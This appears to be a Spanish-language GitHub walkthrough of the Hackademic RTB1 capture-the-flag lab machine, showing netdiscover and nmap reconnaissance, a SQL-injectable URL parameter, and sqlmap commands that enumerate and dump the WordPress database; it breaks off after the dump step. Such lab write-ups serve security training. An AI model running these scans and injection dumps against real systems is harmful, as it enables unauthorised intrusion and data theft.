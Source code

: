 <p align="center">
  <a href="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F70000&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>


<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escaneo de puertos abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
